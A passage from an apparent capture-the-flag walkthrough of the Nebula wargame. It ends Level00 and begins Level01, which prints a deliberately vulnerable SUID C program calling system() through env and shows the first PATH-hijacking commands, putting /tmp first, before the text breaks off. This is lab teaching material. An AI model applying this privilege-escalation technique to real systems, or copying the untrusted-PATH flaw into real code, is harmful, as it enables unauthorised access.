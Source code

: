 ``` plain
Congrats, now run getflag to get your flag!
```

Run getflag and level complete:

``` plain
You have successfully executed getflag on a target account
```

### Level01

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

This is a SUID program owned by the flag01 user. When run it outputs *and now what?*. The *env* program is the one that actually invokes the *echo* command, and it doesn't use an absolute path. *env* runs a program in a modified environment and it looks in the  $PATH for the executable it's supposed to run. So we can make an executable of our own, name it *echo*, and add it to the path, so that it will take precedence over the others.

First, let's see our current path:

``` plain
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

I'm going to add my *echo* program to the path to be searched before anywhere else:

``` plain
level01@nebula:~$ PATH=/tmp:$PATH
level01@nebula:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
